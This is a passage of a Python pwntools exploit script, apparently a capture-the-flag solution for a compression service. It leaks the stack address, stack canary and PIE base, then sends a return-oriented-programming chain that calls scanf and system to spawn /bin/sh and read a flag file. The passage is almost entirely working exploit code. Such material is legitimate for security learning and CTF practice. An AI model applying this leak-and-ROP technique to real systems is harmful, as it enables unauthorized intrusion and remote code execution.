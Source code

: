 ```python
    payload = magic + repeat(0x208*8, 8, 1) + repeat(0x200*8, 8, 1) + handle_data(0x3) + repeat(0x201*8, 8, 1) + repeat(0x20, 0x1050)+ end
    #           magic   stack                   canary                  pad                 start
    # gdb.attach(cn, cmd)
    print(payload)
    cn.sendlineafter("Send me the hex-encoded string (max 4k):", payload)
    cn.recvuntil("That decompresses to:\n")
    
    # 想把/bin/sh写到这里, 后来发现远程的偏移量不同
    stack = un_number(cn.recvn(16, 2).decode())
    print("stack: " + hex(stack))
    binsh = stack - 0x1128
    print("binsh: " + hex(binsh))

    canary = un_number(cn.recvn(16, 2).decode())
    print("canary: " + hex(canary))
    a = un_number(cn.recvn(16, 2).decode())
    print(a==0x3)

    start = un_number(cn.recvn(16, 2).decode())
    print("start: " + hex(start))
    pie = start - 0x0000000000014E0
    print("pie: " + hex(pie))


    cn.sendlineafter("3. Read compression format documentation", str(2))
    
    system  = pie + 0x1134
    pop     = pie + 0x1B03  # pop rdi, ret;
    puts    = pie + 0x1110

    poprsi  = 0x1b01 + pie  # pop rsi, pop r15, ret,
    scanf   = 0x1184 + pie  
    bss     = 0x4050 + pie  # /bin/sh\x00 
    ret     = 0x1b04 + pie  # ret
    s       = 0x20c6 + pie  # "%800s"

    payload = magic + pad8(1) + compress([
        canary, 
        1, 
        2,
        3, 
        4, 
        5, 
        pop,
        s,
        poprsi, 
        bss,   
        0xa ,
        scanf, 
        pop, 
        bss, 
        ret,
        system 
    ], 0x1050) + end

    print(payload)
    # gdb.attach(cn, cmd)
    cn.sendlineafter("Send me the hex-encoded string (max 4k):", payload)

    cn.sendline("/bin/sh\x00")
    cn.sendline("cat flag")
    cn.interactive()
```